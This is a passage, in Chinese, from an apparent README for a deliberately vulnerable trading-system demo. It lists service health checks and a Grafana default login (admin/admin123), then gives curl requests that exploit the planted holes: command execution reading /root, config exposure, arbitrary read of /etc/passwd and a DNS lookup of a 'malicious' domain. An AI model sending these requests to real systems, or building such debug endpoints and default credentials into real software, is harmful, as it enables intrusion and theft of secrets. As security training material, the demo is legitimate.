 ### 服務健康檢查

```bash
# 檢查所有服務健康狀態
curl http://localhost:8080/health  # Trading API
curl http://localhost:8081/health  # Risk Engine
curl http://localhost:8082/health  # Payment Gateway
curl http://localhost:8083/health  # Audit Service
```

## 📊 監控和指標

### Prometheus 指標
- 訪問: http://localhost:9090
- 查看各服務的業務和安全指標

### Grafana 儀表板
- 訪問: http://localhost:3000
- 用戶名: admin
- 密碼: admin123

## 🔒 安全演示功能

### 故意的安全漏洞

1. **命令執行漏洞** (Trading API)
   ```bash
   curl -X POST http://localhost:8080/debug/execute \
     -H "Content-Type: application/json" \
     -d '{"command": "ls", "args": ["-la", "/root"]}'
   ```

2. **敏感配置暴露** (所有服務)
   ```bash
   curl http://localhost:8080/debug/config
   curl http://localhost:8081/debug/config
   ```

3. **文件讀取漏洞** (Risk Engine)
   ```bash
   curl http://localhost:8081/debug/files
   ```

4. **任意文件讀取** (Audit Service)
   ```bash
   curl -X POST http://localhost:8083/debug/sensitive \
     -H "Content-Type: application/json" \
     -d '{"file_path": "/etc/passwd"}'
   ```

5. **DNS查詢測試** (Payment Gateway)
   ```bash
   curl -X POST http://localhost:8082/debug/dns \
     -H "Content-Type: application/json" \
     -d '{"domain": "malicious-site.com"}'
   ```
